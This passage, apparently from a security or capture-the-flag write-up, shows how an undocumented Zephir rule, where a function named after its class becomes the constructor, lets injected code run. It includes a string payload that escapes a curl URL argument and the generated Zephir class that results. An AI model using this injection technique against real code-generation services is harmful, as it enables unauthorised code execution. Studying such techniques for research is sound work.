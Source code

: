 So our injected code is never exectuted. We need more!

### Constructors in Zephir

Even though this is not really documented (Honestly, this should be documented here: [https://docs.zephir-lang.com/0.12/en/oop](https://docs.zephir-lang.com/0.12/en/oop) ), by naming a zephir function the same name as the class, it will be considered the constructor of this class.\
Thus, injecting a function with this name allows us to get code execution.

Payload to inject the constructor looks like this:

```php
http\");
        return true;
    }

    public function aaaaa(){
        // code here
        return true;
    }

    public function dummy(){
        var ch = curl_init();//
```

Which results in the following zephir code:

```php
namespace Aaaaatkfri;

class aaaaa{
    public function getURL(){
        return "aHR0cFxcXCIpOwogICAgICAgIHJldHVybiB0cnVlOwogICAgfQoKICAgIHB1YmxpYyBmdW5jdGlvbiBhYWFhYSgpewogICAgICAgIC8vIGNvZGUgaGVyZQogICAgICAgIHJldHVybiB0cnVlOwogICAgfQoKICAgIHB1YmxpYyBmdW5jdGlvbiBkdW1teSgpewogICAgICAgIHZhciBjaCA9IGN1cmxfaW5pdCgpOy8v";
    }
    public function test(){
        var ch = curl_init();
        curl_setopt(ch, CURLOPT_URL, "http\\");
        return true;
    }

    public function aaaaa(){
        // code here
        return true;
    }

    public function dummy(){
        var ch = curl_init();//");
        curl_setopt(ch, CURLOPT_HEADER, 0);
        curl_exec(ch);
        curl_close(ch);
        return true;
    }
}
```

